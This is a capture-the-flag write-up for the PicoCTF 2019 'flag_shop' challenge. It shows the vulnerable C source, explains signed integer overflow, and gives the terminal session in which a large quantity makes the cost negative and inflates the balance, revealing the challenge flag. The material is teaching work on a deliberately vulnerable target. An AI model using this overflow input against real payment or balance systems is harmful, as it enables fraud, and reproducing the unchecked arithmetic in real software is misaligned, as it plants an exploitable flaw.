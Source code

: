 # PicoCTF 2019 - flag_shop
Author: PinkNoize

General Skills - 300

> There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 63894.

## TL;DR

This challenge provides a shop program. Overflow the price of an item to increase your balance and buy the flag.

# Writeup

This challenge provides us with a program that simulates a shop to buy flags. The source is provided and is below.

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }     
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }
                }
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

This program prints the flag if we buy a 1337 flag, so our goal is to buy the 1337 flag. We can buy the flag if our account balance is greater than 100000. Unfortunately, our account balance starts at 1100 so we have to find a way to increase our balance. Upon further inspection, our only way to change the account balance is to subtract from it, `account_balance = account_balance - total_cost;`.

The important thing to realize to solve this problem is that all the numbers in this program are of type int, which means they can be positive and negative. It also means that the ints are bounded to INT_MIN and INT_MAX because they use a fixed number of bits, usually 32 or 64. 

Another important thing is the behavior of ints when you go pass INT_MAX and INT_MIN. Adding two ints that result in a number greater than INT_MAX is known as an overflow and is undefined behavior. This happening on the INT_MIN side is an underflow. A majority of integers are represented using [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement) as adding is an identical operation regardless if the numbers are positive or negative.

So how does this apply to our challenge? Going back to the line, `account_balance = account_balance - total_cost;`, if make total cost negative we can add to our account balance so we can buy the flag. If look further up we can see how we can control `total_cost`.

```c
scanf("%d", &number_flags);
    if(number_flags > 0){
        int total_cost = 0;
        total_cost = 900*number_flags;
```

We can supply a number greater than 0 that is then multiplied by 900. As we can't supply a negative number, we have to provide a number that overflows when multiplied by 900. When the number overflows it should be negative allowing us to add an arbitrary number to our account balance. I chose to use 2^23 (8388608). We can provide this to the program as detailed below.

```
$ nc 2019shell1.picoctf.com 63894
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
8388608

The final cost is: -1040187392

Your current balance after transaction: 1040188492

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_818a7f84}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
3
```

This gives us the flag, `picoCTF{m0n3y_bag5_818a7f84}`.
